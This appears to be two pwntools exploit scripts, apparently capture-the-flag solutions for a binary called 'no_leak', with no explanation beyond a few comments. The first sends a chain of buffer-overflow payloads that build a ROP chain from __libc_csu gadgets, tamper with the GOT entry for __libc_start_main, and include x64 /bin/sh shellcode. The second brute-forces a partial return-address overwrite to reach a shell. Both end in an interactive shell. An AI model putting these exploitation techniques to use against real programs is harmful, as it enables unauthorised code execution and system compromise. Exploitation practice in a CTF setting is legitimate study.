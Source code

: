 ```python
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

# 0x0000000000400518 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret
magic = 0x0000000000400518

bss = 0x601000+0x400
csu1 = 0x4005B0
csu2 =0x4005CA

start = 0x400450
fini = 0x4005E0
init = 0x400570
main = 0x400537 
read = 0x400549

pay = 'a'*0x80+p64(bss+0x80)+p64(read)
pay = pay.ljust(0x100,'\x00')
p.send(pay)

pay = 'a'*0x88+p64(csu2)
pay += p64(0)+p64(1)+p64(elf.got['__libc_start_main'])+p64(start)+p64(fini)+p64(init)
pay += p64(csu1)
pay = pay.ljust(0x100,'\x00')
p.send(pay)

pay  = 'a'*0x80+p64(bss)+p64(csu2)
pay += p64(0xffffffffffc8e0f8)+p64(0x6013c0+0x3d)+p64(0)*4
pay += p64(magic)+p64(main)
p.send(pay)

pay ='/bin/sh\x00'+'b'*0x80+p64(csu2)
pay += p64(0)+p64(1)+p64(0x6013c0)+p64(0x6012e8)+p64(0)+p64(0)+p64(csu1)
p.send(pay)

p.interactive()
```

```python
from pwn import *
# one = 0x415a6
num = 1
while(True):
        # p = remote("nc.eonew.cn",10002)
        p = process("no_leak")
        p.send('a'*0x80+'a'*8+'\xa6\x15\x04')
        print(num)
        num += 1
        try:    
                p.recv(timeout=0.2)
        except:
                p.close()
                continue
        break
p.interactive()
```
